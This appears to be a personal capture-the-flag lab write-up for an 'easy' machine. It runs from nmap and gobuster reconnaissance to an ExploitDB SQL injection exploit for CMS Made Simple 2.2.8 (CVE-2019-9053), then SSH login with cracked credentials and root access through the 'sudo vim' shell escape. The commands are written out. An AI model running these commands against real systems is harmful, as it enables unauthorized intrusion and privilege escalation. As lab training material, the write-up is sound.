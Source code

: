 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Root the machine . 
# Recon
## Nmap

We can use [[Nmap]] to scan our target :

```
    21/tcp open ftp
    80/tcp open http  
    2222/tcp open ssh
```

opening http we get Apache2 Ubuntu Default Page (noinfo).
# Enumeration
## Gobuster

We can use [[Gobuster]] to perform first [[Enumeration]] on directories on the target :

```
    /simple
```

visiting the /simple directory we find the Copiright at the bottom of the page saying ==**CMS Made Simple version 2.2.8**==

## Searchsploit / ExploitDB

using [[Searchsploit]] in [[Kali Linux]] we can find multiple choices, we can see there's [[SQL Injection]] :

<img src="../../Flameshots/0234bae202bf67778940868e1c1d35bc.png" alt="0234bae202bf67778940868e1c1d35bc.png" width="368" height="420" class="jop-noMdConv">

we can copy it to our working directory from **[[ExploitDB]]**

`cp /usr/share/exploitdb/exploits/php/webapps/46635.py .`

and read it to see it's [[CVE-2019-9053]] 

# Exploit
## Cracking

we can crack the username and password with the [[Python]] code :

`python2.7 46635.py http://10.10.50.86/simple --crack -w usr/share/wordlists/rockyou.txt`

and we find ==**mitch**== for user and **==secret==** as password. 

## SSH

Here we use the credentials to access **[[SSH]]** on port **2222  `ssh mitch@IP -p 2222`**  than we can `cat user.txt` for the first [[Flag]]  .

# Privilege Escalation

Now that we are in we have to escalate to the root flag so we see what we can sudo with user without passwd : `sudo -l` >>  `/usr/bin/vim (NOPASSWD)`

we can search for [[GTFObins]] SUDO, and execute the command on the Target Machine  `<span style="color: rgb(224, 62, 45);">sudo vim -c ':!/bin/sh'</span>`

confirm that we are root `whoami` and `cd root ; cat root.txt` to complete .
